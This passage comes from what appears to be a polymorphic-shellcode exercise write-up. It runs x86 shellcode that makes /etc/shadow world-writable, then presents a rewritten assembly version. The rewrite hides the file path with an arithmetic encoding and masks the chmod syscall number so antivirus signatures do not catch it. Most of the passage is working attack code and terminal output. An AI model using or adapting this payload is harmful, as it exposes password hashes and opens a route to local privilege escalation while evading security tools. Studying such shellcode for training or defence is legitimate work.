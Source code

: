 Let's try this shellcode and restore access right on */etc/shadow*:

```sh
$ ls -al /etc/shadow
-rw-r----- 1 root shadow 1123 août  19 22:04 /etc/shadow
$ nasm -f elf32 original.nasm && ld -N -z execstack -o original original.o
$ ./original 
Erreur de segmentation (core dumped)
$ sudo ./original 
$ ls -al /etc/shadow
-rw-rw-rw- 1 root shadow 1123 août  19 22:04 /etc/shadow
$ sudo chmod 640 /etc/shadow
```

## Tricks

Polymorphism tricks will be:
 * Change the string *//etc/shadow*
 * Do not put 0x17 or 0xf into al which are known for calling setuid or chmod.

## Polymorphism

In order to change *//etc/shadow*, each hexadecimal value will be increased by 0x01020304. Restoring the initial value will be done using a register in order to do not have mutliple 0x01020304 call in the shellcode.

For syscall, 0xd will be put in AL because this is syscall for time which is normally not triggered by antivirus.

```ASM
global _start

section .text

_start:
xor    ebx,ebx
mov    al,0xd ; syscall for time
add al,10
int    0x80
xor    eax,eax
push   eax

mov ebx,   0x78716765
mov ecx, 0x01020304 ;a register is used in order to reduce polymorphism length
sub ebx, ecx
push ebx
mov ebx,  0x69753267
sub ebx, ecx
push ebx
mov ebx,  0x75673233
sub ebx, ecx
push ebx

mov    ebx,esp
mov    cx,0x1b6
mov    al,0xd ; syscall for time
add al,2
int    0x80
inc    eax
int    0x80
```
